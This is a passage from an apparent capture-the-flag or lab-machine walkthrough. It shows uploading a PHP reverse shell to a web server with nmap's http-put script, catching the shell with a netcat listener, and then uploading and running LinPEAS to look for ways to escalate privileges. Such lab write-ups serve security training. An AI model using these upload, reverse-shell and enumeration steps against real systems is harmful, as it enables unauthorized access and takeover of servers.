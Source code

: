 Example usage:
```
nmap -p 80 <ip> --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'
```

Once you uploaded the PHP reverse shell open up a listener on your attacking system.
```
sudo nc -nvlp 443
```

Then navigate to the location of the shell on the web server to execute the PHP shell.
```
http://192.168.56.106/test/shell.php
```

## Privilege Escalation

The first shell we get on the target system is as the **www-data** user, so we will need to find a way to escalate our privileges to root. There are 2 potential ways to achieve this on this machine as stated below. One seems to be the intended way and the other is a measure of last resort.

Let quickly enumerate the target system for privilege escalation vectors using [Linpeas script](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS). Upload it to the target system using the curl put command below and then change the permissions to be able to execute it.

```
curl --upload-file linpeas.sh -v --url http://192.168.56.106/test/linpeas.sh -0 --http1.0

# Once on the target system
chmod +x linpeas.sh

# Execute all its tests and then output to a results file
./linpeas.sh -a | tee linpeas_results.txt
```

Linpeas will reveal the Linux Kernel version is a 99% chance of a privilege escalation vector. We will however not try this as Kernel exploits should be your last resort as it can harm/crash the system and even make it unusable if done incorrectly.
